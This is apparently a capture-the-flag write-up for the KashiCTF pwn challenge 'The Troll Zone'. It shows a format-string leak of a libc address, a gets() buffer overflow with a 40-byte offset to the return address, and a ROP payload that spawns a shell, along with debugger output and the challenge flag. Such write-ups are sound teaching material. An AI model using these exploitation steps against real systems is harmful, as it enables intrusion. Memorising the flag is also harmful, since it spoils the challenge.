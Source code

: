 # The Troll Zone

Domain: pwn

Points: 452

Solves: 53

### Given information

> ROP ROP all the way

### Solution

Writeup author: arikazo

In the troll function there is format string vulnerability

```c 
printf(local_28);
```

Use it to get `__libc_start_main + 133` address \
Format string sent: `%37$p`
```
0x7ffff7e09305 <__libc_start_main+133>:
```
There is bof in main function

```c 
gets(local_28);
```

So find the offset to return address 
```
pwndbg> i f
Stack level 0, frame at 0x7fffffffd770:
 rip = 0x401281 in main; saved rip = 0x7ffff7e0924a
 Saved registers:
  rbp at 0x7fffffffd760, rip at 0x7fffffffd768
pwndbg> x/32gx $rsp
0x7fffffffd740: 0x0000004141414141      0x00007ffff7fe6ea0
0x7fffffffd750: 0x0000000000000000      0x00007ffff7ffdad0
0x7fffffffd760: 0x0000000000000001      0x00007ffff7e0924a
```
The offset is `40`

Now create a rop chain to call `system(/bin/sh)` and get shell

Fill the buffer till RIP with random characters \
Set rip to rop chain

`payload = b'A'* 40 + rop.chain()`

[solve.py](solve.py)

**Flag:** `KashiCTF{did_some_trolling_right_there_fKXGtMLN}`
